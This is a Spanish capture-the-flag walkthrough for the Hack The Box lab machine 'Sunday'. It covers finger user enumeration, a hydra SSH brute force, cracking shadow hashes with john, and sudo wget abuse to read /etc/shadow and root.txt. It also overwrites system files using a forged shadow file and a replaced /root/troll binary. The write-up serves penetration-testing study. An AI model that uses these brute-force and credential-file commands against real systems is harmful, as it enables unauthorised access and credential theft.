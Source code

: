 # Sunday ![Avatar](https://www.hackthebox.eu/storage/avatars/3a186834eba2b780dacdaadcc157d309_thumb.png)

## Initial Scan
```
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
60815/tcp open  unknown
61350/tcp open  unknown
```

## Enum
### Finger

Usando finger-user-enum obtenemos los siguientes usuarios
```
admin@10.10.10.76
root@10.10.10.76
service@10.10.10.76
adm@10.10.10.76
mysql@10.10.10.76
access@10.10.10.76
user@10.10.10.76
sammy@10.10.10.76
sunny@10.10.10.76
bin@10.10.10.76
```
Quitamos los default y lanzamos un ataque de fuerza bruta usando hydra, la lista quedaria

```
root
admin
adm
user
sammy
sunny
```
Toca hacer bruteforcing
```
hydra -L user.txt -P rockyou.txt ssh://10.10.10.76 -s 22022 -t 64
```

La contraseña para sunny es sunday
```
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```
Al ir a entrar nos da el siguiente error
```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Para solventarlos cambiamos el comando de inicio de sesion en el shh:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

No user.txt por ahora pero si que tenemos una carpeta de backups en /, veamos que hay en ella 

Un archivo llamado agent22 que no podemos leer y el shadow.backup

```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Vamos a crackear el de sammy
```
pj@HTB:~$ john shadow.bk --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:00:40 DONE (202
```
Con esto entramos en sammy y leemos la user.txt

## Privesc
```
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
### Opcion 1 Shadow File Crack

```
sudo /usr/bin/wget -i /etc/shadow
root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146:::::::
```
Y a crackear

### Opcion 2 Wget root.txt
```
sudo /usr/bin/wget -i /root/root.txt
```

### Opcion 3 Fake Shadow

```
root:HASHPARAELPASSQUEHEMOSSACAO:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Ponemos en marcha un HTTP server en local con el, y hacemos el overwrite usando wget.

### Opcion 4 /root/troll

```
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
Podemos sobreescribir con nuestro /bin/bash , el de nuestra máquina ese binario usando la opcion de Post.
